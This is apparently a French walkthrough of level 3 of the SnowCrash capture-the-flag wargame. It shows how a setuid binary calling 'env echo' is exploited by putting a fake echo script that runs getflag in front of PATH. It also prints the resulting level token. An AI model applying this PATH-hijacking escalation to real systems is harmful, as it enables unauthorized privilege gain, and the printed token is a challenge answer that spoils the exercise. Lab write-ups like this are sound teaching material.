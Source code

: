 # Level03

</br></br>

## Rechercher et exécuter le fichier

```zsh
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

Dans ce cas, lors de l'exécution d'un fichier avec la permission s, il est exécuté avec la permission détenue par ce fichier, donc
Lorsqu'il est exécuté, il est identique à flag03 exécuté.
En d'autres termes, vous n'avez pas besoin de trouver le mot de passe pour faire su flag03.

</br></br>

## ltrace

ltrace est l'une des commandes disponibles sous Linux. C'est un programme, pas une fonction.

ltrace est un outil qui trace et affiche le comportement des fonctions de la bibliothèque appelées par un fichier exécutable. Par conséquent, il peut être utilisé pour le débogage ou l'analyse en traçant les appels de fonction, les paramètres et les valeurs de retour dans un fichier exécutable.
```zsh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                            = 2003
geteuid()                                                                                            = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                               = 0
+++ exited (status 0) +++
```

</br></br>

## /usr/bin/env


/usr/bin/env est une commande utilisée sous Unix et Linux, et trouve le chemin du programme à exécuter à partir des variables d'environnement et l'exécute.
En d'autres termes, je peux régler l'écho séparément.

En d'autres termes, mettez getflag dans echo et exécutez-le.

</br></br>

## getflag

```zsh
level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag
```

</br></br>

##  Créez un fichier écho et placez le chemin devant PATH

```zsh
level03@SnowCrash:~$ mkdir /tmp/level03
level03@SnowCrash:~$ vim /tmp/level03/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/level03/echo
level03@SnowCrash:~$ export PATH="/tmp/level03:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04 
Password: 
level04@SnowCrash:~$ 
```
